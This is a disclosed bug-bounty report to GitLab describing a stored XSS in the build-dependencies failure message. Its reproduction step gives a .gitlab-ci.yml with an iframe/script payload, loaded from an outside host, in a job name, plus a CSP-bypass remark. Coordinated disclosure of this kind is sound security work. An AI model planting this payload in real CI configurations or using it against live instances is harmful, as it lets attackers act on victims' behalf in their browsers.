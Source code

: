 # Store-XSS in error message of build-dependencies 

## Report Details
- **Report ID**: 950190
- **URL**: https://hackerone.com/reports/950190
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-03T13:15:27.182Z
- **Disclosed**: 2020-12-01T08:04:06.926Z

## Reporter
- **Username**: yvvdwf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Hi,

A stored-XSS is existing in error message of build-dependencies. Fortunately it currently does not exist in gitlab.com. It seems that gitlab.com [disables](https://gitlab.com/gitlab-org/gitlab/-/issues/6144#note_232311971) the dependencies validation. However this feature is enable by default in self-managed installation.

### Steps to reproduce

The following steps should to be reproduced in a self-managed installation of gitlab

1. Create an empty project
2. Go to "Settings/CI/CD/Runners" to setup a runner for this project
3. Create new file `.gitlab-ci.yml` for this project using the following content:

```yaml
test<iframe srcdoc='<script src=https://gitlab.com/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js></script>'></iframe>:
  stage: build
  script: 
    - date > index.html
  artifacts:
    paths: 
      - index.html
    expire_in: 1 second

job-test:
  stage: test
  script: echo "hi"
  dependencies: ["test<iframe srcdoc='<script src=https://gitlab.com/yvvdwf/data/-/jobs/552156057/artifacts/raw/alert.js></script>'></iframe>"]
```

4. Wait for the jobs terminated, go to the detail of `job-test`
5. You should see an alert that contains the current url

### Impact

Stored-XSS allow attackers to perform arbitrary actions on behalf of victims at client side. 
Furthermore, by using `<iframe>`  (detailed in #831962), the Stored-XSS can be fired in gitlab.com despite its CSP.

### What is the current *bug* behavior?

The `failure_message` has been considered as [safe](https://gitlab.com/gitlab-org/gitlab/-/blob/2a5ebef661656937f823736f4f84400a8979b576/app/serializers/build_details_entity.rb#L135)

### What is the expected *correct* behavior?

The `failure_message` should be sanitized.

### Relevant logs and/or screenshots

Please see a screenshot in attached file

### Output of checks

#### Results of GitLab environment info

(For installations with omnibus-gitlab package run and paste the output of:
`sudo gitlab-rake gitlab:env:info`)

```
System information
System:		Ubuntu 18.04
Proxy:		no
Current User:	git
Using RVM:	no
Ruby Version:	2.6.6p146
Gem Version:	2.7.10
Bundler Version:1.17.3
Rake Version:	12.3.3
Redis Version:	5.0.9
Git Version:	2.27.0
Sidekiq Version:5.2.9
Go Version:	unknown

GitLab information
Version:	13.2.2-ee
Revision:	618883a1f9d
Directory:	/opt/gitlab/embedded/service/gitlab-rails
DB Adapter:	PostgreSQL
DB Version:	11.7
URL:		http://gl.local
HTTP Clone URL:	http://gl.local/some-group/some-project.git
SSH Clone URL:	git@gl.local:some-group/some-project.git
Elasticsearch:	no
Geo:		no
Using LDAP:	no
Using Omniauth:	yes
Omniauth Providers: 

GitLab Shell
Version:	13.3.0
Repository storage paths:
- default: 	/var/opt/gitlab/git-data/repositories
GitLab Shell path:		/opt/gitlab/embedded/service/gitlab-shell
Git:		/opt/gitlab/embedded/bin/git
```

## Impact

Stored-XSS allow attackers to perform arbitrary actions on behalf of victims at client side. 
Furthermore, by using `<iframe>`  (detailed in #831962), the Stored-XSS can be fired in gitlab.com despite its CSP.

## Attachments
- Screenshot_2020-08-03_at_14.50.32.png
